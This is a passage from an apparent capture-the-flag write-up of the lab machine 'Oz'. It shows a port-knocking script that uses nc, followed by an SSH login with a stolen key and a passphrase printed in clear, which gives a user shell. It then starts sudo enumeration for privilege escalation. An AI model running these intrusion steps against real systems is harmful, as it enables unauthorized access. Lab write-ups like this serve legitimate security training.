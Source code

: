     
    
    #!/bin/bash
    
    ports="40809 50212 46969"
    
    for port in $ports; do 
        
        echo "[*] Knocking on ${port}"
        echo "a" | nc -u -w 1 10.10.10.96 ${port}
        sleep 0.1
    done; 
    
    echo "[*] Knocking done."
    echo "[*] Password:"
    echo "N0Pl4c3L1keH0me"
    
    ssh -i ~/id_rsa-oz-dorthi dorthi@10.10.10.96
    

Run it, and get a shell, and user.txt:

    
    
    root@kali# ./ssh_dorthi.sh 
    [*] Knocking on 40809
    [*] Knocking on 50212
    [*] Knocking on 46969
    [*] Knocking done.
    [*] Password:
    N0Pl4c3L1keH0me
    Enter passphrase for key '/root/id_rsa-oz-dorthi': 
    dorthi@Oz:~$ id
    uid=1000(dorthi) gid=1000(dorthi) groups=1000(dorthi)
    dorthi@Oz:~$ cat user.txt 
    c21cff3b...
    

## Enumerate Docker Networks

### sudo -l

One of the first things I always check in Linux privesc is `sudo -l`. In this
case, dorthi has entries:

    
    
    dorthi@Oz:/dev/shm$ sudo -l
    Matching Defaults entries for dorthi on Oz:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User dorthi may run the following commands on Oz:
        (ALL) NOPASSWD: /usr/bin/docker network inspect *
        (ALL) NOPASSWD: /usr/bin/docker network ls
    

### docker network ls
